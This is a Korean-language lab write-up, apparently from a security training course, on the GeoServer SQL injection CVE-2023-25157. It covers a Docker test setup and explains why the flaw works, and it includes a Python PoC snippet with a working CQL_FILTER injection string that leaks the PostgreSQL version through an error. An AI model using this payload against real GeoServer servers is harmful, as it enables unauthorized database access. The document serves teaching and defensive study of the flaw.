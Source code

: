 # GeoServer CVE-2023-25157
> 화이트햇 3기 [30반] 김정우
---
github 링크 - https://github.com/custiya/kr-vulhub/tree/main/GeoServer/CVE-2023-25157

### 취약점 요약
* CVE-2023-25157는 GeoServer라는 오픈소스 지도 데이터 서비스 웹 애플리케이션에 대해 발생한 SQLi 취약점
* GeoServer 2.22.0 이하의 일부 버전에서 발생
* WFS(Web Feature Service) 요청의 CQL_FILTER라는 파라미터가 취약함
* 인증없이 해당 API에 접근 가능하다면 누구든 이용 가능

### 환경 구성
* docker compose up -d 커맨드로 테스트 환경 실행
* http://your-ip:8080/geoserver 로 페이지에 접속 가능
* 먼저 PostGIS 데이터 저장소가 포함된 기존 작업 공간발견해야 함
* Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 존재
    * 작업 공간 이름 : vulhub
    * 데이터 저장소 이름 : pg
    * 테이블 이름 : example
    * 사용한 속성 : name

### poc.py
* 위에서 서술했던 내용을 기반으로 sqli 구문을 만든 형태
* 해당 구문을 request모듈을 사용하여 서버에 전달
* strStartsWith(name,'x'') = true
    * x 뒤의 '를 하나 더 추가하며 sql 문법 파괴
* and 1=(SELECT CAST ((SELECT version()) AS integer))
    * version() 함수는 PostgreSQL의 현재 버전을 반환하는 함수이며, 문자열
    * CAST(... AS integer)는 강제로 정수로 변환하므로 오류가 발생
    * 서버는 에러 메시지를 반환하게 되어, Blind SQL Injection 테스트가 가능
```
# 대상 URL
url = "http://localhost:8080/geoserver/ows"

# CQL_FILTER에 들어갈 원본 인젝션 문자열 (URL 디코딩된 상태)
cql_filter = "strStartsWith(name,'x'') = true and 1=(SELECT CAST ((SELECT version()) AS integer)) -- ') = true"

# 파라미터 설정
params = {
    "service": "wfs",
    "version": "1.0.0",
    "request": "GetFeature",
    "typeName": "vulhub:example",
    "CQL_FILTER": cql_filter
}
```
### 결과
![Alt text](result.png)

### 정리
* 해당 poc를 통해 SQLi의 발생 여부를 알아 볼 수 있었다. 공격자는 SQL 쿼리를 통하여 시스템 정보들을 수집할 수 있을 것 같다.
* 해당 공격을 막기 위하여, 사용자 입력값 검증이 필요이 추가되어야 한다. 또한 입력 받은 SQL 구문을 바로 번역해서 사용하는 것이 아니라 별도로 저장하여 사용하여야 한다.